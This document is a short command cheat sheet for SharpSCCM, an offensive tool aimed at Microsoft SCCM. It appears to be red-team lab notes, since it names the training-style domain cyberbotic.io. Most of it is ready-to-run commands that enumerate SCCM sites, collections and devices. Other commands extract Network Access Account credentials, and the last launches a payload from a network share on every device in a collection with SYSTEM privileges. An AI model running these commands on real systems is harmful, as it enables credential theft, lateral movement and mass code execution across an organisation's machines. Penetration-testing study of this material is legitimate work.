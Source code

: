 [GitHub Link](https://github.com/Mayyhem/SharpSCCM)


## local site-info

---

Enumerates SCCM.

```
C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe local site-info --no-banner
```


## get site-info

---

Checks DACL for machines that have full control over the AD.

```
C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get site-info -d cyberbotic.io --no-banner
```


## get collections

---

Enumerates all the collections available in the groups the current user is in.

```
C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get collections --no-banner
```


## get collection-members

---

Enumerates the members of a certain collection.

```
C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get collection-members -n DEV --no-banner
```


## get devices

---

Enumerates devices.

```
C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get devices -n WKSTN -p Name -p FullDomainName -p IPAddresses -p LastLogonUserName -p OperatingSystemNameandVersion --no-banner
```

### For User

`-u` will only return devices where the given user was the last to login.

```
C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get devices -u nlamb -p IPAddresses -p IPSubnets -p Name --no-banner
```


## get class-instances

---

Returns the class instances of a collection.

```
C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get class-instances SMS_Admin --no-banner
```


## local naa

---

Returns the Network Access Account Credentials.

```
C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe local naa -m wmi --no-banner
```


## exec

---

Executes commands on every device in a collection.

```
C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe exec -n DEV -p C:\Windows\notepad.exe --no-banner
```

### Force SYSTEM

`-s` forces the command to run with SYSTEM privileges.

```
C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe exec -n DEV -p "C:\Windows\System32\cmd.exe /c start /b \\dc-2\software\dns_x64.exe" -s --no-banner
```